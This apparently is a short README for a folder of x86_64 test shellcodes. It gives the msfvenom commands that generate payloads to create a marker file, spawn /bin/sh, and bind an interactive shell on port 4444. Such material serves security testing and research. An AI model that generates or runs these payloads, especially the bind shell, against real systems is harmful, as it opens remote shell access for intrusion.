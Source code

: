 # Shellcodes

All test shellcodes are for `x86_64`, a quick recap of each one:

- shellcode_file: creates a file named `pwnd_AAA` under `/tmp/`
- shellcode_sh: spawns a `/bin/sh`
- shellcode_bind: binds an interactive shell on port `4444` 


All test payloads are generated with `msfvenom` (from the Metasploit Framework) because laziness, to make your own payloads:

**shellcode_file:**
```
msfvenom -p linux/x64/exec CMD="touch /tmp/pwnd_AAA" -o shellcodes/shellcode_file
```

**shellcode_sh:**
```
msfvenom -p linux/x64/exec CMD="/bin/sh" -o shellcodes/shellcode_sh
```

**shellcode_bind:**
```
msfvenom -p linux/x64/shell_bind_tcp LPORT=4444 -o shellcodes/shellcode_bind
```